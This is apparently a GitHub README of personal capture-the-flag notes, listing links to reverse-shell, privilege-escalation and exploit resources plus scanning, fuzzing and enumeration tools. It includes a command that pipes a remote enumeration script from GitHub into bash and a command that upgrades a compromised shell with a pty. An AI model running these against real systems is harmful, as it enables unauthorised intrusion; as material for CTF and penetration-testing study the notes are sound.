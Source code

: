 # ctf-notes

## Resources

- [GTFOBins](https://gtfobins.github.io/) - List of unix binaries which can be exploited to escalate privileges etc.
- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) - List of remote shells in various languages
- [NetCat without -e](https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/) - Reverse shell spawning when netcat does not support `-e`
- [Exploit DB](https://www.exploit-db.com/) - Exploit DB

## Tools

_(skipping obvious stuff like metasploit, nmap, john etc.)_

### Port Scanning
- [furious](https://github.com/liamg/furious)

### Fuzzing
- [scout](https://github.com/liamg/scout) - Lightweight URL fuzzer
- [gobuster](https://github.com/OJ/gobuster) - File/directory/DNS/VHOST buster
- [wfuzz](https://tools.kali.org/web-applications/wfuzz) - Advanced web fuzzer

### Crypto
- [pax](https://github.com/liamg/pax) - Padding oracle exploiter

### Linux Enumeration
- [LinEnum](https://github.com/rebootuser/LinEnum) - Linux enumeration script

## Snippets

### Linux Enumeration

```bash
curl -s https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Upgrade Shell

```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py && python /tmp/shell.py
```
